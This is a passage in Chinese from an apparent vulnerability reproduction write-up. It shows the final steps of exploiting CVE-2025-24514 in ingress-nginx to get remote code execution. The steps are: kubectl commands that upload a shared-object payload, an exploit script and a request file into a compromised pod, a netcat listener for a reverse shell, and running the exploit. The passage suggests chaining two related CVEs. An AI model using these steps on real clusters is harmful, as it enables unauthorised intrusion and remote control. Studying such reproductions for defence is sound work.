   
上传以下三个文件到失陷POD  
```
#查看POD名称
kubectl get pod -n test
#上传
kubectl cp ./shell.so -n test python-app-94bdc8d99-prz64:/app/
kubectl cp ./exploit.py -n test python-app-94bdc8d99-prz64:/app/
kubectl cp ./req.json -n test python-app-94bdc8d99-prz64:/app/

```  
### 四、攻击机进行监听  
```
nc -lvnp 7788
```  
### 五、attack  
###   
  
进入失陷POD执行EXP  
```
kubectl exec -it -n test python-app-94bdc8d99-prz64 -- bash

#进入POD后执行
python exploit.py
```  
  
成功反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFI3Ld8FFEpk2uaVWqnGemvYMSGg92icoHaz8PnLwB17qNPB8GhUXooGcVW1NMf5z05HAPge6xaPVTg/640?wx_fmt=png&from=appmsg "")  
###   
### 本文仅仅结合了CVE-2025-24514（auth-url注释注入）实现RCE，还可以结合结合CVE-2025-1097（auth-tls-match-cn注释注入）、CVE-2025-1098（镜像 UID 注入）来实现。各位师傅有兴趣，可自行探索！  
  
  
